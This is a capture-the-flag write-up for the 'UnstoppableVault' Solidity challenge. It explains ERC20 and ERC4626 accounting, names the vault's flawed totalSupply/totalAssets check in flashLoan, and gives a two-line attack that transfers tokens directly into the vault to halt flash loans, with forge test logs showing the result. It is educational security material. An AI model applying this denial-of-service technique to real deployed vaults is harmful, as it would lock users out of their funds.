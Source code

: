 # UnstoppableVault

## Introduction
This challenge brings together several important concepts in Ethereum smart contract development:

- ERC20 Standard – understanding how balanceOf and totalSupply are updated by core functions such as transfer, transferFrom, _mint, and _burn.

- ERC4626 Tokenized Vaults – how vaults track totalAssets, issue shares, and expose standardized deposit/withdrawal logic.

- Flash Loans – mechanisms that allow borrowing without collateral, fee calculation, and repayment within a single transaction.

- Security Patterns – the use of reentrancy guards, access control checks, and pause functionality to protect vault integrity.

## Technical Background
Understand how totalSupply and balanceOf change in the ERC20 standard implementation.

- transfer()

Transfers tokens from the caller to a specified recipient. It modifies only balanceOf[from] and balanceOf[to], without affecting totalSupply.
```solidity
    function transfer(address to, uint256 amount) public virtual returns (bool) {
        balanceOf[msg.sender] -= amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(msg.sender, to, amount);

        return true;
    }
```

- _mint()

Creates new tokens and assigns them to a specified account. This function increases both totalSupply and balanceOf[to].
```solidity
    function _mint(address to, uint256 amount) internal virtual {
        totalSupply += amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(address(0), to, amount);
    }
```

## Key Insight

The bug with function flashLoan() in contract UnstoppableVault:
```solidity
    uint256 balanceBefore = totalAssets();
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance(); // enforce ERC4626 requirement
```

## Solution

The attack code with function test_unstoppable():
```solidity
    uint256 _amount = token.balanceOf(player);
    token.transfer(address(vault), _amount);
```

## Test result
```bash
# forge test -vv --mp test/unstoppable/Unstoppable.t.sol
[⠆] Compiling...
[⠒] Compiling 1 files with Solc 0.8.25
[⠘] Solc 0.8.25 finished in 1.28s
Compiler run successful!

Ran 2 tests for test/unstoppable/Unstoppable.t.sol:UnstoppableChallenge
[PASS] test_assertInitialState() (gas: 57303)
[PASS] test_unstoppable() (gas: 78741)
Logs:
  ### test_unstoppable start ###

  #1 Before attack
  totalAssets in vault: 1000000
  totalSupply in vault: 1000000

  #2 Run attack

  #3 After attack
  totalAssets in vault: 1000010
  totalSupply in vault: 1000000

  ### test_unstoppable end ###

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.15ms (414.71µs CPU time)

Ran 1 test suite in 6.83ms (1.15ms CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)
```